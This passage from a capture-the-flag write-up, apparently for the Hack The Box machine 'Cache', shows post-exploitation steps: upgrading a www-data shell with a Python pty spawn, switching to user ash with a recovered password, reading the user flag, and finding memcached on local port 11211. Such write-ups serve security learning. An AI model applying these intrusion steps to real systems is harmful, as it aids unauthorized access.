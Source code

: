 Before doing that make sure you have a stable shell.

`ash : H@v3_fun` it worked.

```bash
www-data@cache:/var/www/hms.htb/public_html$ python3 -c 'import pty; pty.spawn("/bin/sh")'
<html$ python3 -c 'import pty; pty.spawn("/bin/sh")'
$ su ash
su ash
Password: H@v3_fun

ash@cache:/var/www/hms.htb/public_html$ cd /home
cd /home
ash@cache:/home$ cd ash
cd ash
ash@cache:~$ ls
ls
Desktop  Documents  Downloads  Music  Pictures  Public  user.txt
ash@cache:~$ cat user.txt
cat user.txt
a4--------------------------b6b
ash@cache:~$
```

## Getting User Luffy:

There is a weird port listening inside the machine. Port `11211`

```bash
ash@cache:/home$ netstat -tulnp
netstat -tulnp
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                      
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:11211         0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

I googled the port and I came to know its `memcached`

> Memcached is a general-purpose distributed memory-caching system.
